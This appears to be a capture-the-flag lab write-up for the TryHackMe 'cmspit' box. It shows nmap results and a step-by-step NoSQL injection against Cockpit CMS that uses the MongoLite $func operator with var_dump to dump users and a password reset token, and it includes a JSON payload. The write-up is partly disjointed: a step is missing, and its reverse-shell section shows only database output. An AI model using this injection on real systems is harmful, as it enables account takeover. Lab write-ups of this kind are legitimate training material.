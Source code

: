 ## Enumeration

### Nmap

	# Nmap 7.91 scan initiated Mon Aug  2 21:11:13 2021 as: nmap -v -sC -sV -oA nmap/scan 10.10.106.225
	Increasing send delay for 10.10.106.225 from 0 to 5 due to 118 out of 391 dropped probes since last increase.
	Nmap scan report for 10.10.106.225
	Host is up (0.38s latency).
	Not shown: 998 closed ports
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 7f:25:f9:40:23:25:cd:29:8b:28:a9:d9:82:f5:49:e4 (RSA)
	|   256 0a:f4:29:ed:55:43:19:e7:73:a7:09:79:30:a8:49:1b (ECDSA)
	|_  256 2f:43:ad:a3:d1:5b:64:86:33:07:5d:94:f9:dc:a4:01 (ED25519)
	80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
	|_http-favicon: Unknown favicon MD5: C9CD46C6A2F5C65855276A03FE703735
	| http-methods: 
	|_  Supported Methods: GET HEAD POST OPTIONS
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	| http-title: Authenticate Please!
	|_Requested resource was /auth/login?to=/
	|_http-trane-info: Problem with XML parsing of /evox/about
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

	Read data files from: /usr/bin/../share/nmap
	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	# Nmap done at Mon Aug  2 21:12:16 2021 -- 1 IP address (1 host up) scanned in 63.73 seconds

Two open ports 22/shh and 80/http

80/http is running with **Cockpit cms**

![sada](../assets/img/thm/cmspit/80http.png)

We known cms is Cockpit then look google for any exploit!

we got this article ![https://swarm.ptsecurity.com/rce-cockpit-cms/](https://swarm.ptsecurity.com/rce-cockpit-cms/) and next as follow this
try to exploit!

## Exploit

**Step 1: Dump Users**

http://10.10.59.7/auth/login intercept the request send to repeater then modify the request Using the _$func_ operator of the MongoLite library (used by default)

![image](../assets/img/thm/cmspitvar_dump.png)

we successfully dumped!

**Step 2: Try to Dump PasswordReset Token**

As same as before intercept the forgotpassword reset request send to repeater and change the header requestreset to resetpassword and 
user parameter to token and add $func param too and send value var_dump.

	{
		"token":{
			"$func":"var_dump"
		}
	}

![image](../assets/img/thm/cmspit/reset_token.png)

As successfully we got token

**Step 4: Send new request for new password**

Change the header as auth/newpassword and add token parameter to send token!

![image](../assets/img/thm/cmspit/newpasswd.png)

![image](../assets/img/thm/cmspit/newpasswdweb.png)

Done! next lets login

![image](../assets/img/thm/cmspit/dashboard.png)

## Time to Reverse shell


> db.user.find()
dbdb.user.find()
{ "_id" : ObjectId("60a89d0caadffb0ea68915f9"), "name" : "p4ssw0rdhack3d!123" }
{ "_id" : ObjectId("60a89dfbaadffb0ea68915fa"), "name" : "stux" }
> 
